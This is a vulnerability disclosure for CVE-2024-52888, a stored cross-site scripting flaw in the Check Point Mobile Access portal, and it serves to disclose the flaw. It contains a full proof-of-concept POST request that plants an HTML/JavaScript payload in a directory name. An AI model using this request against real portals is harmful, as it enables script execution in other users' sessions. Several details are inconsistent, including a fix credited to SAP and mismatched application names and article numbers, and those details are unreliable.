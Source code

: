 # CVE-2024-52888
Check Point Mobile Access portal SNX bookmarks  - Cross-Site Scripting (XSS)

## Timeline
- Vulnerability reported to vendor: 13.11.2024
- Public disclosure: 27.04.2025

## Description

A Cross-Site Scripting (XSS) vulnerability has been reported in Check Point Mobile Access portal File Share application. This flaw permits the execution of malicious scripts within the application, potentially compromising its confidentiality and integrity. While the vulnerability does not affect the application’s availability, successful exploitation could lead to unauthorized access to sensitive information and unintended actions performed on behalf of authenticated users.￼

An authenticated attacker could create malicious file or directory names that, when accessed by another authenticated user, may trigger the portal to execute a script while displaying the directory or file properties.

Payload can be saved using following request:
```
POST /sslvpn/HFS/index.php?NFSaction=createDir&Server=[REDACTED]&Share=Portal_Share&dir=. HTTP/1.1
Host: [REDACTED] 
Cookie: [REDACTED] 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------21390880402331902083754323923
Content-Length: 367
Origin: [REDACTED] 
Connection: keep-alive


-----------------------------21390880402331902083754323923
Content-Disposition: form-data; name="dir"

.
-----------------------------21390880402331902083754323923
Content-Disposition: form-data; name="name"


zzz2"><img%20src=x%20onerror='alert(document.domain)'>
-----------------------------21390880402331902083754323923--
```

## Affected versions
* Check Point Mobile Access R81.10
* Check Point Mobile Access R81.20
* Check Point Mobile Access R82 

## Advisory
SAP has addressed this issue in following fixes:
* Jumbo Hotfix Accumulator for R82 starting from Take 14
* Jumbo Hotfix Accumulator for R81.20 starting from Take 99
* Jumbo Hotfix Accumulator for R81.10 starting from Take 173
Users are strongly advised to apply the relevant security patches to mitigate this vulnerability. For detailed information and guidance, please refer to sk183055. ￼

### References
* https://support.checkpoint.com/results/sk/sk183054
* https://support.checkpoint.com/results/sk/sk142952
* https://nvd.nist.gov/vuln/detail/cve-2024-52888
* https://www.cve.org/CVERecord?id=CVE-2024-52888
